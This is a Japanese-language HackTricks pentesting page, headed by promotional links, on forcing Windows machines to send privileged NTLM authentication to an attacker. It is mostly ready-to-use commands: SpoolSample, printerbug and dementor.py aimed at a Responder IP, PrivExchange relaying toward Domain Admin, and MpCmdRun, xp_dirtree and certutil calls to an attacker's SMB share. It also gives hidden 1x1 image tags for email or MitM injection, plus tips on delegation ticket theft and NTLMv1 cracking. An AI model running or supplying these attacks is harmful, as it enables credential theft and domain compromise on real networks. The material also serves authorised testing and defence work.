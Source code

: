 # NTLM特権認証を強制

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> - <a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで企業を宣伝**したいですか？または、**PEASSの最新バージョンにアクセス**したいですか、または**HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つけてください
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう
* **[💬](https://emojipedia.org/speech-balloon/) Discordグループ**に**参加**するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。
* **ハッキングトリックを共有するために、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)**にPRを提出してください。

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers)は、**MIDLコンパイラ**を使用してC#でコーディングされた**リモート認証トリガーのコレクション**です。これにより、第三者の依存関係を回避できます。

## スプーラーサービスの悪用

_**Print Spooler**_サービスが**有効**になっている場合、既知のAD資格情報を使用して、**ドメインコントローラーのプリントサーバーに新しい印刷ジョブの更新を要求**し、**通知を特定のシステムに送信**することができます。\
プリンターが任意のシステムに通知を送信するとき、そのシステムに**対して認証する必要があります**。したがって、攻撃者は_**Print Spooler**_サービスを任意のシステムに認証させ、この認証でサービスは**コンピューターアカウント**を使用します。

### ドメイン上のWindowsサーバーの検索

PowerShellを使用して、Windowsボックスのリストを取得します。通常、サーバーが優先されるため、そこに焦点を当てましょう：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### スプーラーサービスのリスニングを見つける

やや修正された @mysmartlogin's (Vincent Le Toux's) の [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) を使用して、スプーラーサービスがリスニングしているかどうかを確認します：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
以下は、Windowsハードニング/Active Directory方法論/printers-spooler-service-abuse.mdからのコンテンツです。

```plaintext
You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol
```

日本語訳：

```plaintext
Linux上でrpcdump.pyを使用し、MS-RPRNプロトコルを探すこともできます
```
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 任意のホストに対してサービスに認証を要求する

[ここから**SpoolSampleをコンパイルできます**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**。**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
または、[**3xocyteのdementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)または[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)を使用します（Linuxの場合）
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegationと組み合わせる

もし攻撃者がすでに[Unconstrained Delegation](unconstrained-delegation.md)を利用してコンピュータを侵害している場合、攻撃者は**プリンタをこのコンピュータに認証させることができます**。Unconstrained Delegationにより、**プリンタのコンピュータアカウントのTGT**がUnconstrained Delegationを持つコンピュータの**メモリに保存されます**。攻撃者はすでにこのホストを侵害しているため、このチケットを**取得して悪用することができます** ([Pass the Ticket](pass-the-ticket.md))。

## RCP Force authentication

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻撃は、**Exchange Serverの`PushSubscription`機能**に見つかった欠陥の結果です。この機能により、Exchangeサーバはメールボックスを持つ任意のドメインユーザによって、HTTP経由でクライアント提供のホストに強制的に認証されることが可能です。

デフォルトでは、**ExchangeサービスはSYSTEMとして実行**され、過剰な権限が与えられています（具体的には、**2019年以前の累積更新プログラムではドメインのWriteDacl権限が与えられています**）。この欠陥は、**情報をLDAPに中継し、その後ドメインNTDSデータベースを抽出する**ことを可能にするよう悪用される可能性があります。LDAPへの中継ができない場合でも、この欠陥を使用してドメイン内の他のホストに中継および認証することができます。この攻撃の成功により、認証されたドメインユーザアカウントを使用して、Domain Adminへの直接アクセスが可能となります。

## Inside Windows

Windowsマシン内部にすでにいる場合、特権アカウントを使用してWindowsをサーバに接続するように強制することができます:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
または、別のテクニックを使用する: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin（Microsoftによって署名されたバイナリ）を使用してNTLM認証を強制することができます:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTMLインジェクション

### メール経由

コンプロマイズしたいマシンにログインするユーザーの**メールアドレス**を知っている場合、以下のような**1x1の画像が埋め込まれたメール**を送信することができます。
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

コンピュータに対してMitM攻撃を実行できる場合、彼が視覚化するページにHTMLを注入することができます。次のような画像をページに注入してみることができます：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1のクラック

[NTLMv1のチャレンジをキャプチャできる場合は、こちらを参照してクラック方法を確認してください](../ntlm/#ntlmv1-attack)。\
_**NTLMv1をクラックするには、Responderのチャレンジを "1122334455667788" に設定する必要があることを覚えておいてください。**_
